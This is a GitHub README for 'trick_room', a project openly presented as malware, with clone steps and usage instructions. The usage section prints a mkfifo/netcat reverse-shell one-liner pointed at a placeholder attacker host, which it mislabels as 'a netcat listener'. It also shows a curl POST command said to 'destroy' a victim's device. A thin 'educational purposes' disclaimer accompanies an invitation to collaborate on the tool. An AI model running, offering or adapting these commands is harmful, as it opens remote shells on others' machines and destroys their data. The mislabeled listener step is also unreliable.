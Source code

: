 # trick_room
The Most Advanced Malware Ever Made!

## Creators

- [@LotusEmpire](https://www.github.com/lotusempire64) 





## Installation

```bash
git clone https://github.com/lotusempire64/Trick_Room 
cd Trick_Room  
```
## Warning! 
Don't Run On Your Own Computer, Use Only For Educational Purposes As This Virus Has The Potential To Cause Severe Harm 

## Usage 
Step 1: Start a netcat listener: 
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc youriphere 8080 >/tmp/f
``` 
Step 2: Use post requests to controll target, it will send back the server IP 
Example Of Post Request To Destroy Victims Device: 
```bash 
curl victimserveriphere -X POST -d DESTROY 
``` 
## This Is A Work In Progress 
If you have any features you want added, find any bugs, or would like to colaborate on this project, email me here: lotusempire6@gmail.com
